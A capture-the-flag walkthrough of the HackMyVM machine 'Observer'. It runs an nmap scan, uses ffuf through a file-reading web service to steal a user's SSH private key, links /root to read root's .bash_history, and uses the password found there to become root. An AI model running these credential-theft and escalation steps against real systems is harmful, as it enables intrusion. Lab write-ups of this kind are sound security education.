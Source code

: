 ```yaml
---
categories: [HackMyVM]
tags: [Fuzzing, PrivEsc, Soft_Link]
img_path: /Vulnhub-Files/img/
image:
  path: Observer/Untitled.png
  alt: HackMyVM Machine 📷
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#Fuzzing</kbd>&nbsp;&nbsp;<kbd>#Soft_Link</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Observer/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.83   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:42 IST
Nmap scan report for 10.0.2.83
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 06:c9:a8:8a:1c:fd:9b:10:8f:cf:0b:1f:04:46:aa:07 (ECDSA)
|_  256 34:85:c5:fd:7b:26:c3:8b:68:a2:9f:4c:5c:66:5e:18 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:13:06 GMT
|     Content-Length: 105
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/nice ports,/Trinity.txt.bak NOT EXIST 
|     <!-- sbOJiFQGZsnwTKSmVoiGLOpbUOpEdKHMV -->
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|     <!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|_    <!-- DaFpLSjFbcXoEFfRsWxPLDnJObCsNVHMV -->
1 service unrecognized despite returning data.
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 80 →

![Untitled](Observer/Untitled%202.png)

It can reads the content from `home` directory means inside the home directory I have to find the `username` and the file name to read so I used `ffuf Tool` for username bruteforce →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://10.0.2.83:3333/FUZZ/.ssh/id_rsa' -fw 8 -fl 4 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.83:3333/FUZZ/.ssh/id_rsa
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response status: 404,500,401
 :: Filter           : Response words: 8
 :: Filter           : Response lines: 4
________________________________________________

cgi-bin/                [Status: 301, Size: 55, Words: 3, Lines: 3, Duration: 14ms]
jan                     [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 10ms]
:: Progress: [20476/20476] :: Job [1/1] :: 5000 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
{: .nolineno}

I got the username as `jan` and I used the file name as `.ssh/id_rsa` , That gives me the private keys of that user and I can login now →

![Untitled](Observer/Untitled%203.png)

Now lets Login →

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ssh -i id_rsa jan@10.0.2.83
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 27 08:53:33 2023 from 10.0.2.77
jan@observer:~$ whoami
jan
jan@observer:~$ id
uid=1000(jan) gid=1000(jan) grupos=1000(jan),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
jan@observer:~$ hostname
observer
jan@observer:~$
```
{: .nolineno}

lets see the sudoer file that can lead me to root →

```bash
jan@observer:~$ sudo -l
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
jan@observer:~$
```
{: .nolineno}

I tried it and observed that the system processes are running `/opt/observer` as we can see from its web server part through root user →

![Untitled](Observer/Untitled%204.png)

As this is ran through root user so I cna try to access the root files through the web application so for that I need to create a soft link that will redirect to the root directory .

```bash
jan@observer:~$ ln -s /root root
jan@observer:~$ ls -al
total 40
drwx------ 4 jan  jan  4096 nov 27 09:29 .
drwxr-xr-x 3 root root 4096 ago 21 20:19 ..
-rw------- 1 jan  jan   711 nov 27 09:21 .bash_history
-rw-r--r-- 1 jan  jan   220 ago 21 20:19 .bash_logout
-rw-r--r-- 1 jan  jan  3526 ago 21 20:19 .bashrc
drwxr-xr-x 3 jan  jan  4096 ago 21 20:21 .local
-rw-r--r-- 1 jan  jan   807 ago 21 20:19 .profile
lrwxrwxrwx 1 jan  jan     5 nov 27 09:29 root -> /root
drwx------ 2 jan  jan  4096 ago 21 20:25 .ssh
-rw------- 1 jan  jan    24 ago 21 20:21 user.txt
-rw------- 1 jan  jan    54 ago 21 20:21 .Xauthority
jan@observer:~$
jan@observer:~$ cd root
-bash: cd: root: Permiso denegado
jan@observer:~$
```
{: .nolineno}

Now Lets access `.bash_history` file common known file in a user directory →

![Untitled](Observer/Untitled%205.png)

I got the root password from here so lets Login and be a root user →

```bash
jan@observer:~$ su root
Contraseña: 
su: Fallo de autenticación
jan@observer:~$ su root
Contraseña: 
root@observer:/home/jan# cd ~
root@observer:~# whoami
root
root@observer:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@observer:~# hostname
observer
root@observer:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:48:8b:ad brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.83/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 331sec preferred_lft 331sec
    inet6 fe80::a00:27ff:fe48:8bad/64 scope link 
       valid_lft forever preferred_lft forever
root@observer:~# cat root.txt
FLAG-------FLAG-------FLAG
root@observer:~# ls -al
total 52
drwx------  5 root root 4096 nov 27 09:29 .
drwxr-xr-x 18 root root 4096 ago 21 20:17 ..
-rw-------  1 root root  668 nov 27 09:21 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 21 20:23 .cache
-rw-------  1 root root   55 nov 27 09:29 .lesshst
drwxr-xr-x  3 root root 4096 ago 21 20:23 .local
-rw-r--r--  1 root root  913 ago 21 20:23 observer.go
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   24 ago 21 20:24 root.txt
-rw-r--r--  1 root root   66 ago 21 20:23 .selected_editor
drwx------  2 root root 4096 ago 21 20:15 .ssh
-rw-r--r--  1 root root  161 ago 21 20:22 .wget-hsts
root@observer:~#
```
{: .nolineno}

Now am Root !!